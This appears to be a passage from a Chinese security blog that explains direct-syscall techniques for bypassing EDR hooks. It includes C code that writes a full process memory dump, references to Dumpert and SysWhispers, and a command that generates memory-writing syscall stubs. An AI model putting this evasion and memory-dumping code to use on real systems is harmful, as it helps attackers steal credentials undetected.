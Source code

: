 ```
    HANDLE hDmpFile = NULL;
    IO_STATUS_BLOCK IoStatusBlock;
    ZeroMemory(&IoStatusBlock, sizeof(IoStatusBlock));
    OBJECT_ATTRIBUTES FileObjectAttributes;
    InitializeObjectAttributes(&FileObjectAttributes, &uFileName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    //  Open input file for writing, overwrite existing file.
    status = NtCreateFile(&hDmpFile, FILE_GENERIC_WRITE, &FileObjectAttributes, &IoStatusBlock, 0,
        FILE_ATTRIBUTE_NORMAL, FILE_SHARE_WRITE, FILE_OVERWRITE_IF, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);

    if (hDmpFile == INVALID_HANDLE_VALUE) {
        ZwClose(hProcess);
        exit(1);
    }

    DWORD dwTargetPID = GetProcessId(hProcess);
    BOOL Success = MiniDumpWriteDump(hProcess,
        dwTargetPID,
        hDmpFile,
        MiniDumpWithFullMemory,
        NULL,
        NULL,
        NULL);

    ZwClose(hDmpFile);
    ZwClose(hProcess);

    return;
}
```

　　我们可以看看汇编代码的实现，主要是通过对API的Index赋值到eax，然后调用syscall

![2](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2021-02-17/2.png)

　　这里存在一个问题，不同版本的windows中ntdll里面API调用的Index不一样，汇编代码会有差异，所以这里需要针对不同windows版本适配需要调用的汇编代码：

　　[https://github.com/outflanknl/Dumpert/blob/master/Dumpert-DLL/Outflank-Dumpert-DLL/Syscalls.asm](https://github.com/outflanknl/Dumpert/blob/master/Dumpert-DLL/Outflank-Dumpert-DLL/Syscalls.asm)

　　直接调用汇编代码这种方案可以直接绕开EDR的应用层Hook，不过缺点就是需要对各个windows各个版本进行大量的适配。

　　可以通过 [Syswhispers](https://github.com/jthuraisamy/SysWhispers) 或 [Syswhispers2](https://github.com/jthuraisamy/SysWhispers2) 工具来解析ntdll.dll中的Index，其中Syswhispers2减少了asm文件的大小，Dumpert、Syswhispers、Syswhispers2目前都只支持x64位的Syscall，如果需要x86的Syscall，可以参考SysWhispers2_x86 

![3](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2021-02-17/3.png)

 　　其中Syswhispers、Syswhispers2都需要安装python3，我们尝试通过Syswhispers用以下命令获取NtProtectVirtualMemory的汇编代码

　　>py .\syswhispers.py --functions NtProtectVirtualMemory,NtWriteVirtualMemory -o syscalls_mem
